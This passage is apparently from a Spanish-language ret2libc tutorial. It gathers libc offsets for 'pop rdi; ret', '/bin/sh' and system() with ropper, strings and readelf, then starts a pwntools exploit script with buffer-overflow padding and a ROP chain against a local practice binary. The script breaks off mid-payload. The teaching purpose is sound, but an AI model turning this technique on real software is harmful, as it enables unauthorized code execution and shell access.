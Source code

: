```

```
0x0000000000102ea4
```
### Offset de pop rdi; ret

Para sacar el offset de pop rdi; ret usamos el mismo comando solo que al final en lo que queremos buscar le cambiamos a ```pop rdi``` y queda asi

```
ropper --file /usr/lib/libc.so.6 --search "pop rdi"
```
Esto nos imprime lo siguiente

![](/imgs/ret2libc/poprdi.png)

Y de nuevo, seleccionare el que muestro ahi en pantalla, asi que el offset es:

```
0x0000000000029835
```

### Offset de /bin/sh

Para sacar el offset de /bin/sh usaremos el comando strings para buscar en el archivo de libc la cadena ```/bin/sh``` , el comando queda asi

```
strings -a -t x /usr/lib/libc.so.6 | grep "/bin/sh"
```
Esto nos da como resultado: ```1bb26a /bin/sh```

### Offset de system()

Usare el comando ```readelf``` para buscar por ```system``` en el archivo de la libreria libc y el comando queda asi:

```
readelf -s libc.so.6 | grep system
```
Esto nos imprime:
```
1481: 000000000004ba40    45 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.2.5
```
Donde el offset es: ```000000000004ba40```


## Creando nuestro exploit y ejecutandolo

Ya que tenemos todos los offset solo tenemos que armar todo y el exploit queda asi

```python
from pwn import *

p = process("./ret2libc") 

libc = 0x7ffff7c00000
pop_rdi = 0x0000000000029835
bin_sh = 0x1bb26a
system = 0x000000000004ba40
ret = 0x0000000000102ea4

payload = b"A" * 72
payload += p64(libc + ret) 
payload += p64(libc + pop_rdi)
```